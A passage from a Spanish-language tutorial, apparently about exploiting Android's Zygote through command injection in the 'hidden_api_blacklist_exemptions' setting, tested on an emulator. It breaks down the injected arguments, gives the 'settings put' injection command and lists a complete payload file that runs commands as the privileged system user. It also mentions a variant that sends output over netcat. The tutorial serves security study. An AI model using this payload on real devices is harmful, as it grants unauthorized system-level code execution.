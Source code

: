 
1. Vemos que hay varias líneas vacías al principio y unas _comas_ con una "X" al final. Esto lo analizaremos más adelante porque es importante en la explotación de Android 12 en adelante.  
2. Podemos ver que el usuario y el grupo que se le asignan al comando es `1000`. Normalmente en Android el usuario `1000` corresponde a _system_, que es un usuario muy privilegiado y bajo el que corre la aplicación _settings_.  
3. Se indica información de SELinux con el argumento `--seinfo` y podemos notar que se usa el contexto `"privapp"`.  
4. Tenemos `--runtime-flags=1`, que parece ser importante para que funcione `--invoke-with`.  
5. El argumento `--nice-name=zYg0te` nos puede ayudar en el futuro a localizar en _logcat_ las salidas de los comandos que invoquemos con el exploit.  
6. Por último está `--invoke-with` con un comando muy interesante, porque no solo trata de listar el directorio de la aplicación _settings_, sino que redirecciona la salida del comando a `netcat (nc)` para poder ver esa salida desde otra terminal que esté escuchando con `nc`.

Para inyectar este tipo de _payloads_, solo debemos:

1. Guardar la _payload_ en un archivo de texto.
2. Copiarlo al directorio `/data/local/tmp/` del emulador.
3. Actualizar la variable con el siguiente comando:

```bash
settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload.txt)"
```
&nbsp;
> Cambia el nombre del archivo si usaste otro distinto a `payload.txt`.

**Modificación sugerida por LLeavesg**

Por sugerencia de LLeavesg, vamos a reemplazar el comando de `--invoke-with` por:

```bash
/system/bin/logwrapper echo zYg0te $(id);
```
&nbsp;
Este comando nos permitirá filtrar `logcat` por `zYg0te` y verificar si el comando `id` se ejecuta correctamente.

Nuestro archivo con la payload (que llamaremos `payload_1.txt`) quedaría así:

```bash





8
--setuid=1000
--setgid=1000
--runtime-args
--seinfo=platform:privapp:targetSdkVersion=30:complete
--runtime-flags=1
--nice-name=zYg0te
--invoke-with
/system/bin/logwrapper echo zYg0te $(id); #
,,,,X
```
&nbsp;
Para subirlo al emulador, usamos:
